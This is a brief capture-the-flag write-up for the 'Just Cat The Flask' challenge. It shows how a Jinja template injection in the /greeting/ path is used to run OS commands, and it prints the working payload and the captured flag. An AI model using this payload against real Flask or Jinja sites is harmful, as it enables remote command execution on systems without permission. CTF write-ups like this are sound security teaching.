



# Just Cat The Flask 1/2
> https://bluehens-cat-the-flask.chals.io/greeting/hi

## About the Challenge
We were given a website without a source code, every input after `/greeting/*` is reflected in the website



## How to Solve?
The website was vulnerable to SSTI and this website uses Jinja as its templating engine. Here is the payload I used to execute OS command:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{lipsum.__globals__.os.popen('ls').read()}}
```



There is a file called `flag1.txt`, read that to obtain the flag



```
UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}
```